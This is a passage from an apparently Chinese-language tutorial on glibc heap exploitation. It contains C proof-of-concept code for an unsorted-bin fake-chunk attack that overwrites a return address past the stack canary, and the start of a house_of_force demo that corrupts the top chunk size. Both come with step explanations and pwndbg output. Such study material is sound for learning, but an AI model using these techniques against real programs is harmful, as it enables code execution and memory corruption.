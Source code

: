 ```c
        printf("Now next malloc will return the region of our fake chunk: %p\n", &stack_buffer[2]);
        char *p2 = malloc(0x100);
        printf("malloc(0x100): %p\n", p2);

        // 5
        intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
        memcpy((p2+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary

        assert((long)__builtin_return_address(0) == (long)jackpot);
}
```

1. 这步和上一题的步骤一样，最终unsorted bin中插入了victim
2. 在stack_buffer+1的位置构造一个size: 0x110，以及一个bk指针，指向stack_buffer本身
3. 这步是模拟重写的漏洞，使victim-1的位置，也就是将chunksize(victim)改为0x20，在victim+1的位置构造了一个fd指针，指向stack_buffer。这样下一步malloc(0x100)就会取出stack_buffer位置的fake chunk
4. p2指向一个0x100的chunk。p2的地址 == stack_buffer+2的地址

    ```bash
    pwndbg> x/x p2
    0x7fffffffdd80: 0x00007ffff7dd1b78
    pwndbg> x/x stack_buffer +2
    0x7fffffffdd80: 0x00007ffff7dd1b78
    ```

5. 最后获取目标函数地址，将其写在p2+40的位置，覆盖掉ret地址，并且绕过stack-smash检查，完成攻击

## house_of_force

这是一个利用top chunk攻击的案例，通过将top chunk的size改成一个非常大的数值，导致无论多大的malloc都不会去通过mmap分配。随后通过获取目标地址和top chunk地址的差值，来达到任意地址写的目的。

```c
char bss_var[] = "This is a string that we want to overwrite.";

int main(int argc , char* argv[])
{
        // 1
        intptr_t *p1 = malloc(256);
        fprintf(stderr, "The chunk of 256 bytes has been allocated at %p.\n", p1 - 2);

        fprintf(stderr, "\nNow the heap is composed of two chunks: the one we allocated and the top chunk/wilderness.\n");
        int real_size = malloc_usable_size(p1);
        fprintf(stderr, "Real size (aligned and all that jazz) of our allocated chunk is %ld.\n", real_size + sizeof(long)*2);

        // 2
        fprintf(stderr, "\nNow let's emulate a vulnerability that can overwrite the header of the Top Chunk\n");

        //----- VULNERABILITY ----
        intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));
        fprintf(stderr, "\nThe top chunk starts at %p\n", ptr_top);

        fprintf(stderr, "\nOverwriting the top chunk size with a big value so we can ensure that the malloc will never call mmap.\n");
        fprintf(stderr, "Old size of top chunk %#llx\n", *((unsigned long long int *)((char *)ptr_top + sizeof(long))));
        *(intptr_t *)((char *)ptr_top + sizeof(long)) = -1;
        fprintf(stderr, "New size of top chunk %#llx\n", *((unsigned long long int *)((char *)ptr_top + sizeof(long))));
        //------------------------

```
